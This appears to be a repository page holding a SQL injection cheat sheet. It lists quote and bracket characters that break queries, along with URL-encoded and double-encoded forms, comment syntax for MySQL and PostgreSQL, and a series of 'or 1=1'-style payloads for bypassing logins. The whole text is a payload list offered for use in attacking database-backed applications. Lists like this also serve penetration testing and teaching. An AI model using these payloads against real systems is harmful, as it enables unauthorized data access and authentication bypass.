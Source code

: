 <h1 align='center'> Query Break</h1>

```sql

'
%27
"
%22
#
%23
;
%3B
)
`
')
")
`)
'))
"))
`))
Wildcard (*)
&apos;  # required for XML content
'/*
'/\*
';--
*/
```

- **`Multiple encoding`**
```sql
%%2727
%25%27
```

<h1 align='center'>Query Join</h1>

- MySQL
```sql
#comment
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */
```

- PostgreSQL
```sql
--comment
/*comment*/
```

- more ways to break
```sql
' -- -
'--'
"--"
') or true--
" or "1"="1
" or "1"="1"#
" or "1"="1"/*
"or 1=1 or ""="
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"#
") or ("1"="1"/*
") or "1"="1
") or "1"="1"--
") or "1"="1"#
") or "1"="1"/*
```
